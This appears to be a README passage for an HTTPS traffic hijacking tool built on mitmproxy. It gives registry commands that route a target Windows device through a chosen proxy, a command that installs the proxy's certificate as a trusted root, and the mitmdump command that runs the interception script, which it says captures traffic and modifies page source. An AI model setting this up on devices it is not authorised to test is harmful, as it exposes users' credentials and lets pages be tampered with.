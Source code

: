 2. Second, run **mitmproxy** on your sniffing device.

3. Third, enable proxy settings:<br/>

    Set **ProxyEnable** registry key to 1.<br/>
    This key is located at:

    ```
    "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings"
    ```
    
    You can update its value from the terminal using the following command:

    ```powershell
    reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f
    ```

4. Fourth, set the proxy server adderss:<br/>

    Set the **ProxyServer** registry key to your proxy's IP and PORT, for example:<br/>
    "192.18.100.100:8080" -> "{YOUR IP}:{YOUR PROXY SERVER PORT}".<br/>
    This key is also located at:<br/>

    ```
    "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings"
    ```

    You can update its value from the terminal using the followind command:

    ```powershell
    reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "192.168.100.100:8080" /f
    ```

    - **/v** specifies the name of the registry value you wan to modify.
    - **/t** specifies the data type to be stored. For example, **RED_SZ** represents a string value.
    - **/d** sets the data to be stored in the specified value.
    - **/f** forces the update without pompting for confirmation if the value already exists.

5. Fifth, trust your proxy's server Certificate:<br/>

    Use the **mitmproxy.cer** located in the  **script/cert** directory and add it to the Trusted Root Certification Authorities store:<br/>

    ```powershell
    Import-Certificate -FilePath ".\mitmproxy.cer" -CertStoreLocation Cert:\LocalMachine\Root
    ```

## How does it work?

This **HTTPS Traffic Hijacking** tool allows you to capture all HTTP and HTTPS traffic from a target device, focusing on modify the source code of a page.

Once you have completed all setup stepts, and you can see traffic being captured, it's time to run **mitmdump** on your capturing device usin the **https_hijacking.py** script.

```shell
./mitmdump -s https_hijacking.py --quiet
```
